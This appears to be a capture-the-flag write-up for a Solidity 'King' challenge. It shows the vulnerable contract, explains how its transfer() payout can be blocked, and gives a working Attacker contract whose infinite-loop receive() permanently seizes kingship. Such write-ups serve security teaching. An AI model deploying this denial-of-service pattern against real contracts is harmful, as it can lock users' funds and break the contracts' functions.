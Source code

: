 # King

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## Goal

Stop another account (EOA or contract) of reclaiming kingship

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The vulnerable part of the code is the following:

```
payable(king).transfer(msg.value);
```

When someone tries to reclaiming kingship, the ether sent in the transaction is sent to the current king.

The issue is in the transfer() function. It reverts if the transaction conducts more than 2300 gas, therefore we can become king, and when someone tries to become new king, ether will be send to our Attacker contract and we can cause the transaction to revert.

To exploit the contract we need to:

1. create Attacker contract, and send the address of the King contract in the constructor.
2. in the constructor we send a transaction to King contract with some value in order for the Attacker contract to become King
3. implement receive() function to run in infinite loop, this will cause failure of the transaction because of too much gas

## Attacker contract code

```
contract Attacker {
  uint256 private count;

  constructor(address king) payable {
    (bool sent, ) = king.call{value: msg.value}("");
    require(sent, "Failed to send Ether");
  }

  receive() external payable {
    while (true) {
      count++;
    }
  }
}
```